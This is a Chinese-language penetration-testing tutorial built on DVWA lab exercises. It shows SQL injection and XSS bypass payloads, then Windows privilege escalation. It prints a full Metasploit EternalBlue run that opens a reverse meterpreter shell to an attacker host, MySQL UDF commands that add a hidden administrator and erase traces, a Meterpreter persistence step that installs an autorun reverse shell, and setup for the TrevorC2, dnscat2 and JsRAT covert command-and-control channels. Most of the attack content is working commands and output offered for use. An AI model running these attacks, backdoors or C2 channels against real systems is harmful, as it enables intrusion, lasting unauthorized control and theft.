          header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );
  
          // Feedback for end user
          echo '<pre>User ID is MISSING from the database.</pre>';
      }
      mysql_close();
  }
  ?> 
  ```
  - 可以看到，Low级别的代码对参数id没有做任何检查、过滤，存在明显的SQL注入漏洞，同时SQL语句查询返回的结果只有两种：`User ID exists in the database.` 与 `User ID is MISSING from the database.`
  - 当输入`1' and 1=1 #`时，返回`User ID exists in the database.`，当输入`1' and 1=2 #`时，返回`User ID is MISSING from the database.`，说明存在字符型SQL盲注。

- 其他级别的盲注漏洞和非盲注漏洞都是只有反馈上的差别，只是High级别的代码中会执行sleep(seconds)函数，目的是为了扰乱基于时间的盲注。而盲注的防御也和前面SQL注入的防御一样，在此不再赘述。


### 反射型XSS

- XSS介绍

  - XSS，全称Cross Site Scripting，即跨站脚本攻击，某种意义上也是一种注入攻击，是指攻击者在页面中注入恶意的脚本代码，当受害者访问该页面时，恶意代码会在其浏览器上执行，需要强调的是，XSS不仅仅限于JavaScript，还包括flash等其它脚本语言。根据恶意代码是否存储在服务器中，XSS可以分为存储型的XSS与反射型的XSS。
  - DOM型的XSS由于其特殊性，常常被分为第三种，这是一种基于DOM树的XSS。例如服务器端经常使用document.boby.innerHtml等函数动态生成html页面，如果这些函数在引用某些变量时没有进行过滤或检查，就会产生DOM型的XSS。DOM型XSS可能是存储型，也有可能是反射型。


- 反射型XSS_**low级别**代码分析

  ```php
  <?php
  // Is there any input?
  if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
      // Feedback for end user
      echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
  }
  ?> 
  ```
  - 代码直接引用了name参数，并没有任何的过滤与检查，存在明显的XSS漏洞。


- 反射型XSS_**low级别**漏洞利用

  - 输入`<script>alert('xss')</script>`，成功弹框。javascript中，alert()是弹出警告框的意思。 

  


- 反射型XSS_**medium级别**代码分析

  ```php
  <?php
  // Is there any input?
  if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
      // Get input
      $name = str_replace( '<script>', '', $_GET[ 'name' ] );
      // Feedback for end user
      echo "<pre>Hello ${name}</pre>";
  }
  ?> 
  ```
  - 这里基于黑名单用str_resplace函数过滤`<script>`，采用双写绕过或者大小写绕过，也可以使用其他可以触发XSS的代码，进行轻松绕过的。


- 反射型XSS_**medium级别**漏洞利用
  - 双写绕过：`<sc<script>ript>alert('XSS')</script>`
  - 大小写绕过：`<SCRipt>alert('XSS')</script>`


- 反射型XSS_**hight级别**代码分析&漏洞利用

  ```php
  <?php
  // Is there any input?
  if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
      // Get input
      $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
      // Feedback for end user
      echo "<pre>Hello ${name}</pre>";
  }
  ?> 
  ```
  - High级别的代码同样使用黑名单过滤输入，preg_replace()函数用于正则表达式彻底过滤script，这使得双写绕过、大小写混淆绕过（正则表达式中i表示不区分大小写）不再有效。因此，使用其他代码代替script，例如：` `（如果图片的src所指的路径不存在图片，则 弹框）


- 反射型XSS_**impossible级别**代码分析&【防御】

  ```php
  <?php
  // Is there any input?
  if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
      // Check Anti-CSRF token
      checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
      // Get input
      $name = htmlspecialchars( $_GET[ 'name' ] );
      // Feedback for end user
      echo "<pre>Hello ${name}</pre>";
  }
  // Generate Anti-CSRF token
  generateSessionToken();
  ?> 
  ```
  - Impossible级别的代码使用htmlspecialchars函数把预定义的字符&、”、 ’、<、>转换为HTML实体，防止浏览器将其作为HTML元素。
  - 防御：
    1. 过滤用户输入
    2. 使用htmlspecialchars()过滤
    3. 使用owasp等安全xss处理API


### 存储型XSS

- 介绍
  - 存储型XSS又称为持久型跨站脚本，比反射型XSS更具威胁性，并且可能影响到Web服务器自身安全。它的代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候将触发代码执行。


- 存储型XSS_**low级别**代码分析

  ```php
  <?php
  if( isset( $_POST[ 'btnSign' ] ) ) {
      // Get input
      $message = trim( $_POST[ 'mtxMessage' ] );
      $name    = trim( $_POST[ 'txtName' ] );
      // Sanitize message input
      $message = stripslashes( $message );
      $message = mysql_real_escape_string( $message );
      // Sanitize name input
      $name = mysql_real_escape_string( $name );
      // Update database
      $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
      $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
      //mysql_close();
  }
  ?> 
  ```
  - 可以看到，对输入并没有做XSS方面的过滤与检查，且存储在数据库中，因此这里存在明显的存储型XSS漏洞。存在Name和Message两处XSS，在输入时存在字符长度限制，可以通过修改maxlength进行绕过或者抓包修改进行绕过。

- 其他级别的存储型XSS也和反射型XSS类似，绕过方法以及防御也相同，因此不再赘述。


### DOM型XSS

- 介绍
  
- DOM型XSS的产生并没有和后台服务器产生交互，而是通过浏览器的DOM树解析产生的。
  
- DOM型XSS_**low级别**代码分析&漏洞利用

  ```html
  #服务器端没有任何php代码，查看前端页面源代码，处理用户输入的只有前端的js代码：
  <script>
      if (document.location.href.indexOf("default=") >= 0) {
      var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
      document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
      document.write("<option value='' disabled='disabled'>----</option>");
      }
      document.write("<option value='English'>English</option>");
      document.write("<option value='French'>French</option>");
      document.write("<option value='Spanish'>Spanish</option>");
      document.write("<option value='German'>German</option>");
  </script>
  ```
  - 由于没有对XSS进行防御，可以直接在url后面添加payload，`http://127.0.0.1/DVWA/vulnerabilities/xss_d/?default=English<script>alert()</script>`弹框证明有xss的存在，浏览器在解析html dom树时就会触发js弹框代码  。


- DOM型XSS_**medium级别**代码分析

  ```php
  前端代码和low级别一样，但是后端代码对url的default参数的值做了限制
  <?php
  // Is there any input?
  if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
      $default = $_GET['default'];
      # Do not allow script tags
      if (stripos ($default, "<script") !== false) {
          header ("location: ?default=English");
          exit;
      }
  }
  ?> 
  ```
  - 不允许出现script标签，否则就将default的值设为默认的English，stripos函数还防止了大小写绕过。


- DOM型XSS_**medium级别**漏洞利用
  - 可以采用img来代替构造payload，同时要注意进行对标签的闭合：
    `http://127.0.0.1/DVWA/vulnerabilities/xss_d/?default=English</option></select>`


- DOM型XSS_**high级别**代码分析

  ```php
  <?php
  // Is there any input?
  if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
      # White list the allowable languages
      switch ($_GET['default']) {
          case "French":
          case "English":
          case "German":
          case "Spanish":
              # ok
              break;
          default:
              header ("location: ?default=English");
              exit;
      }
  }
  ?>
  ```
  - 这里采用了白名单，要求default的值必须为select选择菜单中的值。


- DOM型XSS_**high级别**漏洞利用
  - 可以利用字符#进行绕过，该字符后的数据不会发送到服务器端，从而绕过服务端过滤，payload构造连接为：`http://127.0.0.1/DVWA/vulnerabilities/xss_d/?default=English # <script>alert()</script>`


- DOM型XSS_**防御**
  1. 过滤用户输入
  2. 使用htmlspecialchars()过滤
  3. 使用owasp等安全xss处理API
  4. 客户端浏览器自身启动 XSS Filter


### Weak Session ID弱会话ID

- Session ID介绍
  - 密码与证书等认证手段，一般仅仅用于登录的过程。当登陆完成后，用户访问网站的页面，不可能每次浏览器请求页面时都再使用密码认证一次。因此，当认证完成后。就需要替换一个对用户透明的凭证。这个凭证就是SessionID。
  - 当用户登陆完成后，在服务器端就会创建一个新的会话（Session），会话中会保存用户的状态和相关信息。服务器端维护所有在线用户的Session，此时的认证，只需要知道是哪个用户在浏览当前的页面即可。用户拿到SessionID就会加密后保存到 cookies 上，之后只要cookies随着http请求发送服务器，服务器就知道你是谁了。
  - SessionID一旦在生命周期内被窃取，就等同于账户失窃。同时由于SessionID是用户登录之后才持有的认证凭证，因此不需要进行密码破解。


- Weak Session ID_**low级别**代码分析

  ```php
  <?php
  $html = "";
  if ($_SERVER['REQUEST_METHOD'] == "POST") {
      if (!isset ($_SESSION['last_session_id'])) {
          $_SESSION['last_session_id'] = 0;
      }
      $_SESSION['last_session_id']++;
      $cookie_value = $_SESSION['last_session_id'];
      setcookie("dvwaSession", $cookie_value);
  }
  ?> 
  ```
  - 从服务端的代码端可以看出，sessionID只是从0开始累加，所以可以较容易的猜测出别人的SessionID。


- Weak Session ID_**medium级别**代码分析

  ```php
  <?php
  $html = "";
  if ($_SERVER['REQUEST_METHOD'] == "POST") {
      $cookie_value = time();
      setcookie("dvwaSession", $cookie_value);
  }
  ?> 
  ```
  - 将cookie的值改成了当前的时间，看起来比low的随机了点，但是经过连续的收集后就很容易发现其中的规律。也可以用[时间戳转换工具](https://tool.lu/timestamp/)进行转换。


- Weak Session ID_**high级别**代码分析

  ```php
  <?php
  $html = "";
  if ($_SERVER['REQUEST_METHOD'] == "POST") {
      if (!isset ($_SESSION['last_session_id_high'])) {
          $_SESSION['last_session_id_high'] = 0;
      }
      $_SESSION['last_session_id_high']++;
      $cookie_value = md5($_SESSION['last_session_id_high']);
      setcookie("dvwaSession", $cookie_value, time()+3600, "/vulnerabilities/weak_id/", $_SERVER['HTTP_HOST'], false, false);
  }
  ?> 
  ```
  - 这里将cookie的值进行了md5加密，并且还设置了cookie过期时间进一步增加SessionID的安全性，但不足的是进行md5加密的值是0的累加。也可以用[解密网站](https://www.cmd5.com/)进行md5解密。


- Weak Session ID_**impossible级别**代码分析&【防御】

  ```php
  <?php
  $html = "";
  if ($_SERVER['REQUEST_METHOD'] == "POST") {
      $cookie_value = sha1(mt_rand() . time() . "Impossible");
      setcookie("dvwaSession", $cookie_value, time()+3600, "/vulnerabilities/weak_id/", $_SERVER['HTTP_HOST'], true, true);
  }
  ?> 
  ```
  - 这里将cookie值 = sha1(随机数+时间戳+固定字符串“impossbile”)，用了sha1()函数对cookie进行了加密，从而降低了被破解的可能性。


## 第八阶段-权限提升

### 提权基础 服务器配置（apache2为例）

- 提权本质
  - 提权本质就是提升自己在服务器中的权限，获得更大的权限。
  - 例如：在Windows下普通用户，通过提权获得Administrator或system权限；在Linux中通过执行编译后的程序，从普通用户权限提升到roo账号权限。
- 提权分类
  - 提权分为本地提权和远程提权；也可以分为系统提权和第三方软件提权
- 权限配置
  - 一般情况下，Web服务会给与一个特定低权限用户维护服务，避免给与过高权限。


### Windows系统提权基础命令

- `ipconfig /all` 查看网卡、ip、DNS、DHCP等信息
- `netstat -an` 获取当前主机所有端口的开放情况及网络连接情况
- `net start` 命令查看系统所开启的所有服务
- `net stop 服务名称` 关闭服务，如杀毒软件
- `tasklist /svc` 获取运行的进程名称、服务和PID
- `taskkill /PID 号码` 结束进程，`taskkill /?` 获取帮助信息
- `net user username password /add` 添加用户
- `net localgroup administrators username /add` 添加用户到管理员组


### Windows提权辅助工具

- 辅助工具介绍
  - Windows-Exploit-Suggester 此工具将目标补丁与Microsoft漏洞数据库进行比较，以检测目标上潜在的缺失补丁。[https://github.com/GDSSecurity/Windows-Exploit-Suggester/](https://github.com/GDSSecurity/Windows-Exploit-Suggester/)
- 辅助工具安装
  - 环境：python2.7、安装xlrd模块。`python -m pip install xlrd`
  - 执行 --update以获取漏洞文件。会这当前目录下创建一个***mssb.xls文件
- 辅助工具命令行介绍
  - 使用-h参数获取帮助信息
- 辅助工具使用技巧
  - 查看本机补丁与漏洞文件中，可能存在的POC。

```
实操：
>python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-04-14-mssb.xls
[*] done
>systeminfo > win2003.txt
>python windows-exploit-suggester.py --audit -i win2003.txt -d 2020-04-14-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
...
```


### 8-4Windows远程提权（以ms17-010为例）

- 远程提权
  - 在授权的情况下，针对目标机器进行渗透测试，需要对目标进行提权。可以首先扫描系统是否存在可利用漏洞，探测是否可以利用。
  - 如果可以直接利用获得最高权限，那么就不需要本地提权，直接远程提权拿到最高权限。
- ms17-010介绍
  - MS17-010是一个安全类型的补丁，MS17-010更新修复了Microsoft Windows中的漏洞。 如果攻击者向 Microsoft 服务器消息块 1.0 (SMBv1) 服务器发送经特殊设计的消息，则其中最严重的漏洞可能允许远程代码执行。
  - WannaCry（又叫Wanna Decryptor），一种“蠕虫式”的勒索病毒软件，大小3.3MB，由不法分子利用NSA（National Security Agency，美国国家安全局）泄露的危险漏洞“EternalBlue”（永恒之蓝）进行传播 。勒索病毒肆虐，俨然是一场全球性互联网灾难，给广大电脑用户造成了巨大损失。最新统计数据显示，100多个国家和地区超过10万台电脑遭到了勒索病毒攻击、感染。 勒索病毒是自熊猫烧香以来影响力最大的病毒之一。
- 扫描探测ms17-010漏洞
  - 在metasploit下直接利用ms17-010的漏洞扫描模块进行探测。
- 利用ms17-010漏洞提权
  - 在Metasploit下集成了ms17-010的漏洞利用模块 。

```
实操
#扫描探测ms17-010漏洞
root@kali:~# msfconsole
msf5 > search ms17-010
msf5 > use auxiliary/scanner/smb/smb_ms17_010 
msf5 auxiliary(scanner/smb/smb_ms17_010) > show options
msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.177.134
msf5 auxiliary(scanner/smb/smb_ms17_010) > run
[+] 192.168.177.134:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7600 x64 (64-bit)
[*] 192.168.177.134:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

#以上探测结果表明靶机存在ms17-010漏洞
#下面开始利用ms17-010漏洞提权
msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.177.134
msf5 exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.177.128
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.177.134  yes       The target address range or CIDR identifier
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.177.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 192.168.177.128:4444 
[+] 192.168.177.134:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7600 x64 (64-bit)
[*] 192.168.177.134:445 - Connecting to target for exploitation.
[+] 192.168.177.134:445 - Connection established for exploitation.
[+] 192.168.177.134:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.177.134:445 - CORE raw buffer dump (23 bytes)
[*] 192.168.177.134:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.177.134:445 - 0x00000010  74 65 20 37 36 30 30                             te 7600         
[+] 192.168.177.134:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.177.134:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.177.134:445 - Sending all but last fragment of exploit packet
[*] 192.168.177.134:445 - Starting non-paged pool grooming
[+] 192.168.177.134:445 - Sending SMBv2 buffers
[+] 192.168.177.134:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.177.134:445 - Sending final SMBv2 buffers.
[*] 192.168.177.134:445 - Sending last fragment of exploit packet!
[*] 192.168.177.134:445 - Receiving response from exploit packet
[+] 192.168.177.134:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.177.134:445 - Sending egg to corrupted connection.
[*] 192.168.177.134:445 - Triggering free of corrupted buffer.
[*] Sending stage (206403 bytes) to 192.168.177.134
[*] Meterpreter session 2 opened (192.168.177.128:4444 -> 192.168.177.134:52582) at 2020-04-15 23:14:27 +0800
[+] 192.168.177.134:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.177.134:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.177.134:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > shell
Process 3736 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7600]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
#成功利用ms17-010漏洞
```


### MySQL UDF提权

- UDF介绍
  - UDF是mysql的一个拓展接口，UDF（Userdefined function）可翻译为用户自定义函数，这个是用来拓展Mysql的技术手段。
  - 在提权过程中，经常使用mysql 的udf.dll进行提权。并且提权之前，要上传udf.dll到指定的目录下。
    使用`select @@plugin_dir;`或`show variables like 'plugin%';`查看具体目录。
    - MySQL<5.0，导出路径随意；
    - 5.0 <= MySQL<5.1，则需要导出至目标服务器的系统目录（如：c:/windows/system32/）；
    - MySQL>5.1，必须要把udf.dll文件放到MySQL安装目录下的lib\plugin文件夹下才能创建自定义函数。）；
  - 修改目录方式：
    1. mysqld.exe --plugin-dir=具体目录
    2. mysqld.exe --defaults-file=具体目录
    3. mysql.ini配置文件  plugin_dir=具体目录


- udf.dll获取

  - sqlmap下自带了对应提权使用的udf库。可以直接下载使用，但是sqlmap进行加密，需要解密。

    - 在D:\SQLmap\extra\cloak目录下执行命令`python cloak.py  -d -i D:\SQLmap\data\udf\mysql\windows\32\lib_mysqludf_sys.dll_`生成udf.dll（注意系统位数）

      


- 上传UDF

  - 将udf.dll文件上传到指定目录下。`select @@plugin_dir;`或`show variables like 'plugin%'; `

    - 利用sql注入进行上传`select load_file() into dumpfile “具体路径”`

    - 直接利用蚁剑上传到具体目录下。（一般Lib、Plugin文件夹需要手工建立；还有要重命名文件）

      


- 执行提权命令

  ```
  #从udf.dll文件中引入自定义函数sys_eval
  create function sys_eval returns string soname 'udf.dll';
  #判断是否成功创建自定义函数
  select * from mysql.func where name = 'sys_eval';
  #运行dir命令验证自定义函数是否正常运行
  select sys_eval('dir');
  #新建密码为123的用户user1
  select sys_eval('net user user1 123 /add');
  #将用户user1添加到administrators组
  select sys_eval('net localgroup administrators user1 /add');
  #清除痕迹
  drop function sys_eval;
  ```


## 第九阶段-权限维持

### 权限维持介绍

- 权限维持的原因

  - 某目标服务器初始化现阶段存在安全漏洞，可以被利用拿到服务器权限。一段时间后，系统管理员对系统进行升级，打补丁（patch），系统不存在安全漏洞，导致无法利用漏洞获得服务器权限。
  - 合法且被授权的渗透测试人员，利用权限维持为了证明服务器存在对应的安全漏洞。

- 权限维持案例-环境介绍

  - 目标机器：win7 没有ms17-010补丁。
  - 利用Metasploit中ms17-010对应的Exploit可以进行渗透测试，获取”临时”的System权限。（当补丁打上就不能利用ms17-010获取System权限）。

- 权限维持案例

  - 使用Metasploit  run persistence模块`run persistence -U -i 10 -p 4444 -r 192.168.177.128`
    - -S：系统启动时加载；
    - -X：开机时自动加载；
    - -U：用户登录时加载。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
    - -i：设置反向连接间隔时间，单位为秒；
  - -p：设置反向连接的端口号（攻击机）；
    - -r：设置反向连接的ip地址（攻击机）。
  
  ```
  #实操
  meterpreter > run persistence -X -i 5 -p 1234 -r 192.168.177.128
  
  [!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
  [!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
  [*] Running Persistence Script
  [*] Resource file for cleanup created at /root/.msf4/logs/persistence/WIN-AUH1U25K717_20200418.3452/WIN-AUH1U25K717_20200418.3452.rc
  [*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.177.128 LPORT=1234
  [*] Persistent agent script is 99643 bytes long
  [+] Persistent Script written to C:\Windows\TEMP\yPUGtWnZGTYBV.vbs
  [*] Executing script C:\Windows\TEMP\yPUGtWnZGTYBV.vbs
  [+] Agent executed with PID 2996
  [*] Installing into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\wbKiWQgLFSGi
  [+] Installed into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\wbKiWQgLFSGi
  
  #以上在靶机上创建了开机自启的反弹shell
  #下面用metasploit连接前面创建的shell
  msf5 > use exploit/multi/handler 
  msf5 exploit(multi/handler) > set lhost 192.168.177.128
  lhost => 192.168.177.128
  msf5 exploit(multi/handler) > set lport 1234
  lport => 1234
  msf5 exploit(multi/handler) > exploit
  
  [*] Started reverse TCP handler on 192.168.177.128:1234 
  [*] Sending stage (179779 bytes) to 192.168.177.134
  [*] Meterpreter session 1 opened (192.168.177.128:1234 -> 192.168.177.134:49187) at 2020-04-18 23:38:01 +0800
  
  meterpreter > 
  ```


### 权限维持 - [TrevorC2工具](https://github.com/trustedsec/trevorc2)

- TrevorC2工具介绍
  - TrevorC2是基于C/S架构的通过浏览网站，进行命令控制。由于时间间隔不同且不使用POST请求进行数据提交，因此检测TrevorC2变得困难很多，这样更加隐蔽，不容易被察觉。
  - TrevorC2有两个组件一客户机和服务器。目前trevorc2_client.py支持Windows、MacOS和Linux。
  - 组成：
    1. trevorc2_server.py
    2. trevorc2_client.py
- TrevorC2工具安装
  - `git clone https://github.com/trustedsec/trevorc2.git`
  - `pip install -r requirements.txt`
- TrevorC2工具使用
  - `./trevorc2_server.py` 启动TrevorC2服务端（攻击机）
  - `gedit trevorc2_client.py` 修改TrevorC2客户端IP设置
  - `python trevorc2_client.py` 启动TrevorC2客户端（靶机）
- TrevorC2建立连接
  - `list` 查看建立的会话
  - `interact 会话ID` 连接会话




### 权限维持 - [Dnscat2工具](https://github.com/iagox86/dnscat2)

- Dnscat2工具介绍

  - dnscat2是基于C/S架构的一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道，它的一大特色就是服务端会有一个命令行控制台，所有的指令都可以在该控制台内完成。包括：文件上传、下载、反弹Shell等等。
  - 服务端用来建立监听，等待连接。可以说是一个用来建立DNS服务端的程序。

- Dnscat2工具安装

  - 服务端安装：（攻击机）

    ```
    git clone https://github.com/iagox86/dnscat2.git
    cd dnscat2/server/
    gem install bundler
    bundler install
    ```

  - 客户端安装：（靶机）

    ```
    git clone https://github.com/iagox86/dnscat2.git
    cd dnscat2/client/
    make
    ```

- Dnscat2工具使用

  - 服务端
    - `ruby dnscat.rb`
  - 客户端
    - `/dnscat2 --dns server=127.0.0.1,port=53`

- Dnscat2建立连接

  ```
  session             #查看已建立的连接
  session -i 1        #对会话进行连接
  ping                #测试连接情况
  shell               #建立反弹shell
  ctrl-z              #按键Ctrl+Z退出当前会话
  session -i 2        #连接反弹shell
  ```




### 权限维持 - [JsRAT工具](https://github.com/Hood3dRob1n/JSRat-Py)

- JsRAT工具介绍

  - JsRAT工具是用来建立以HTTP协议为基础的命令控制通道。
  - JsRAT是一款使用Python脚本开发的工具，利用JS反弹shell，并不会在硬盘安装任何程序，避免被发现。

- JsRAT工具安装

  - `git clonehttps://github.com/Hood3dRob1n/JSRat-Py.git `

- JsRAT工具使用

  - `./JSRat.py -i IP地址 -p 端口`
  - 使用客户端浏览器访问以上IP和端口，以获得执行命令

- JsRAT建立连接

  - 在命令行中执行浏览器中显示的命令。

  
  

  - 在攻击机中获得反弹shell

  


end.